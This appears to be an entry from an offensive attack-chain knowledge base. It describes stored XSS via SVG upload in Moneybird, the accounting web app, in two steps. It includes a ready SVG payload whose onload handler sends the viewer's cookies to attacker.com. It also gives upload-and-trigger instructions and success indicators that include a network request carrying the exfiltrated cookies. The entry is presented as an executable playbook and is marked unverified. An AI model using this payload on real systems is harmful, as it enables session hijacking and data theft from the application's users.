

---
tags:
  - xss
  - stored-xss
  - svg-upload
  - file-upload
  - javascript-execution
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Upload-Malicious-SVG-with-Embedded-XSS-Payload]]'
  - '[[procedures/Trigger-Stored-XSS-by-Viewing-Uploaded-File]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:16:37.391Z'
description: >-
  A multi-step attack exploiting a stored XSS vulnerability in the SVG upload
  feature, allowing arbitrary JavaScript execution in authenticated users'
  browsers.
skill_level: intermediate
impact_level: high
id: 653376f4-df08-4de4-a7a9-a31054ae0302
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS via Malicious SVG Upload Leading to Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow exploiting a stored XSS vulnerability in Moneybird's SVG upload feature.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)

### Target Environment

- Web application with file upload functionality (e.g., Moneybird's SVG upload feature)
- Authenticated access to the upload interface
- No specific services/ports beyond standard HTTPS (443)

### Initial Access Requirements

- Valid user credentials for the target application
- Network access to the web application
- No prior access beyond authentication

## Detailed Attack Procedures

### Step 1: Upload Malicious SVG
procedure: [[procedures/Upload-Malicious-SVG-with-Embedded-XSS-Payload]]

**Objective**: Embed and upload a malicious JavaScript payload within an SVG file to store the XSS exploit on the server.

**Instructions**: Create an SVG file with embedded JavaScript, then upload it via the web interface. Use a text editor to craft the payload, ensuring it executes on render.

Example payload in SVG:

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS'); document.location='http://attacker.com/steal?cookie='+document.cookie">
</svg>
```

Save as `malicious.svg` and upload through the file upload form.

**Expected Output**: Successful upload confirmation, with the file stored and accessible.

**Success Indicators**:
- File upload succeeds without errors
- File appears in the user's file list or dashboard

### Step 2: Trigger Stored XSS by Viewing
procedure: [[procedures/Trigger-Stored-XSS-by-Viewing-Uploaded-File]]

**Objective**: Render the uploaded SVG in the browser to execute the embedded JavaScript, potentially hijacking the viewer's session.

**Instructions**: Navigate to the URL or interface where the uploaded SVG is displayed. The browser will parse and render the SVG, triggering the onload event.

Access the file via the web app's view feature, e.g., clicking on the uploaded attachment.

**Expected Output**: JavaScript execution, such as an alert popup or redirection with stolen cookies.

**Success Indicators**:
- Alert or console log confirms payload execution
- Network request to attacker's server with exfiltrated data (e.g., cookies)

## Attack Chain Summary

### Key Achievements

1. Successful storage of XSS payload via SVG upload without sanitization
2. Arbitrary JavaScript execution in the context of authenticated users
3. Potential session hijacking or data theft from victims viewing the file

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
